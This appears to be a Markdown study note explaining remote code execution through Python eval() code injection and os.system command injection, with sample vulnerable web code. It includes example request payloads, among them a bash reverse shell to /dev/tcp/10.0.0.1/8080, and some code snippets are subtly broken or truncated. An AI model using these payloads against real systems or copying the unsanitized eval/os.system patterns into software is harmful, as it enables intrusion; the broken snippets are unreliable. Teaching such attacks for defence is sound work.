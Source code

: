 [[RCE]]
There is no one singular technique used to achieve RCE. You can achieve it by exploiting further things like SQL Injection, Insecure Deserialization, Template Injection etc. Also further exploiting RCE requires high technical knowledge so you should jump further if you know what you're doing.

### **Mechanisms of RCE**
Sometimes attackers can achieve RE via injection of malicious code directly into code that will be executed. Those vulnerabilities are **code injections**. You can also do that by putting malicious code into file executed or included by victims application. We call that **file inclusion**.

##### Code Injection
They happen when application can't differ data provided by user from code to be executed. Most of the time it happens because of lack of sanitization. Sometimes it is intended functionality, which can be abused. Lets say you're a programmer trying to make Python calculator for web. 
We use eval(), because this functionality is very elastic and pretty much does everything for us already.
```
return eval("{}".format(input))

result = calculate(user_input.calc)
print("Wynik wynosi {}."format(result))
```

Program will require user to provide String that will be evaluated.
User will have to make something of a following request in order to get result back

```
GET /calculator?calc=1+2
HOST example.com
```
Because eval() downloads input data and executes it as the python code attacker can provide application with something more malicious like:
```
GET /calculator?calc="_import_('os').system('ls')
Host: example.com
```
Attacker then can get list of files that are in webapp directory as a result.

Attackers can also do something much more harmful for example he can try to connect himself to Systems reverse shell, which will allow him to actually have Remote Code Execution without using python anymore:
```
GET /calculator?calc="_import_('os').system('bash -i >& /dev/tcp/10.0.0.1/8080
0>&1')"
Host: example.com
```



Second way of achieving Code Injection is when the input data of an user is connected directly with command in System command line. We call that **Command Injection**. Command injections might be present even in complicated frameworks, because of their complexity and many dependencies that they use.

Lets say example.com also has a functionality which allows to download external file and showing it on the webpage. To service this functionality application uses wget command to download remote file.
```
import os 

def download(url):
	os.system("wget -0- {}".format(url))

display(download(user_input.url))
```
As a whole program downloads URL address from user input and it directs it to wget command executed by using os.system(). If you will send following request, application will download source code of Google main page.
```
```